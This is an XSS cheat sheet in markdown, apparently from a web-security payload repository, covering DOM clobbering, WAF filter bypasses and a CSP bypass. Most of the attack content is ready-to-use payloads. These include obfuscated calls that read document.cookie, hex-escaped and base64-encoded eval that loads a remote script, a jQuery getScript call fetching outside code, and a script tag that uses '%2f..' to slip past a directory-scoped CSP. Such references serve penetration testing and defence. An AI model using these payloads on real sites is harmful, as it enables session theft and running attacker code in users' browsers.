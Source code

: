 # XSS

## Awesome Cheat Sheets

- [PayloadsAllTheThings XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- [PortSwigger XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

## Awesome Tools

- [XSS'OR - Hack with Javascript](http://xssor.io/#ende) - swisskey for payload editing

## Summary

- [DOM Based XSS](#dom-based-xss)
    - [DOM Clobbering](#dom-clobbering)
- [Bypass](#bypass)
    - [Filter](#filter)
        - [Bypass using JS-Alpha](#bypass-using-js-alpha)
        - [Bypass using JS global variables](#bypass-using-js-global-variables)
        - [Bypass using JSFuck](#bypass-using-jsfuck)
        - [Bypass using a little known JS comment style](#bypass-using-a-little-known-js-comment-style)
    - [CSP](#csp)
        - [Bypass using encode '/' by @SecurityMB](#bypass-using-encode--by-securitymbhttpstwittercomsecuritymbstatus1162690916722839552)

## DOM Based XSS

Useful references:
- [Introduction to the DOM](https://developer.mozilla.org/en-US/docs/Web/API/Document_Object_Model/Introduction),
- [DOM Tree](https://developer.mozilla.org/en-US/docs/Web/API/Document_object_model/Using_the_W3C_DOM_Level_1_Core),
- [Window](https://developer.mozilla.org/en-US/docs/Web/API/Window).

### DOM Clobbering

DOM Clobbering allows defining certain variables in the window’s context. For example, an HTML element 
```html
<p id="CONFIG"></p>
```
 creates a reference to itself under a `window.CONFIG` variable if and only if there were no other variables declared 
 with the same name.

References:
- [Clobbering the clobbered — Advanced DOM Clobbering](https://medium.com/@terjanq/dom-clobbering-techniques-8443547ebe94)

## Bypass

### Filter

#### Bypass using JS-Alpha

[JS-Alpha](https://github.com/terjanq/JS-Alpha) converts any javascript code into a code that only consists of 
 `/[a-z().]/` characters. Example:

```
with(escape())with(eval.bind)eval(unescape(match().concat(strike().big().link().length).concat(escape(escape.name.length).concat(escape(...call.name))).concat(escape(escape(link())).length).concat(link().blink().link().length).concat(link().link().strike().length).concat(name.link().length).concat(big().big().length).concat(link().length).concat(link().length).concat(strike().big().length).concat(fixed().big().length).join(unescape(...escape(this)))))
```

The generated code should work on all platforms. It uses only standardized functions.

#### Bypass using JS global variables

Global variable example:

```js
window["document"]["cookie"]
```

Call `alert` from `window` example:

```js
window["alert"](window["document"]["cookie"]);
self[/*foo*/"alert"](self[document"/*bar*/]["cookie"]);
```

Techniques to bypass WAF rules:

```js
// Concatenation sequences
self["ale"+"rt"](self["doc"+"ument"]["coo"+"kie"]);

// Hex escape sequences
// alert(document.cookie)
self["\x61\x6c\x65\x72\x74"](
    self["\x64\x6f\x63\x75\x6d\x65\x6e\x74"]
        ["\x63\x6f\x6f\x6b\x69\x65"]
);

// Eval and Base64 encoded strings
self["\x65\x76\x61\x6c"](
  self["\x61\x74\x6f\x62"](
    "dmFyIGhlYWQgPSBkb2N1bWVudC5nZXRFbGVtZW50\
    c0J5VGFnTmFtZSgnaGVhZCcpLml0ZW0oMCk7dmFyI\
    HNjcmlwdCA9IGRvY3VtZW50LmNyZWF0ZUVsZW1lbn\
    QoJ3NjcmlwdCcpO3NjcmlwdC5zZXRBdHRyaWJ1dGU\
    oJ3R5cGUnLCAndGV4dC9qYXZhc2NyaXB0Jyk7c2Ny\
    aXB0LnNldEF0dHJpYnV0ZSgnc3JjJywgJ2h0dHA6L\
    y9leGFtcGxlLmNvbS9teS5qcycpO2hlYWQuYXBwZW\
    5kQ2hpbGQoc2NyaXB0KTs="
  )
);

// jQuery
self["$"]["globalEval"]("alert(1)");
self["\x24"]["\x67\x6c\x6f\x62\x61\x6c\x45\x76\x61\x6c"]("\x61\x6c\x65\x72\x74\x28\x31\x29");
// getScript loads a JavaScript file from the server using a GET HTTP request, then execute it.
self["$"]["getScript"]("https://example.com/my.js");

// Iteration and Object.keys
Object.keys(self)[5]; // "alert"
self[Object.keys(self)[5]]("foo"); // alert("foo")

```

##### References

- [Bypass XSS filters using JavaScript global variables](https://www.secjuice.com/bypass-xss-filters-using-javascript-global-variables/amp/?__twitter_impression=true)

#### Bypass using JSFuck

[JSFuck](http://www.jsfuck.com/) is an esoteric and educational programming style based on the atomic parts of JS.
 It uses only six different characters to write and execute code. But the payload is very long. You can reduce the 
 payload using the methods described in the article [Bypass Uppercase filters like a PRO (XSS Advanced Methods)](https://medium.com/@Master_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce).

#### Bypass using a little known JS comment style

A little known JS comment style [SingleLineHTMLOpenComment](https://www.ecma-international.org/ecma-262/10.0/index.html#prod-annexB-SingleLineHTMLOpenComment)
 and [HTMLCloseComment](https://www.ecma-international.org/ecma-262/10.0/index.html#prod-annexB-HTMLCloseComment)
 in ECMA specification. The following is valid JS comment syntax:

```js
-->valid_comment_style
```

##### References

- [HITCON CTF 2019 - Bounty Pl33z Task](https://github.com/orangetw/My-CTF-Web-Challenges#bounty-pl33z)
- [HITCON CTF 2019 - Bounty Pl33z Writeup by balsn](https://balsn.tw/ctf_writeup/20191012-hitconctfquals/#bounty-pl33z)
- [Challenge in Cure53 XSS wiki (the idea for the Bounty Pl33z)](https://github.com/cure53/XSSChallengeWiki/wiki/prompt.ml#level-8)

### CSP

#### Bypass using encode '/' by [@SecurityMB](https://twitter.com/SecurityMB/status/1162690916722839552)

If CSP policy points to a dir and you use `%2f` to encode `'/'`, it is still considered to be inside the dir. All browsers
 seem to agree on that. This leads to a possible bypass, by using `'%2f..%2f'` if server decodes it, example:

```html
<meta http-equiv=Content-Security-Policy content="script-src pastebin.com/XYZ/">
<!-- this will execute -->
<script src="https://pastebin.com/XYZ%2f..%2fraw/b0Rajxqk"></script>
```
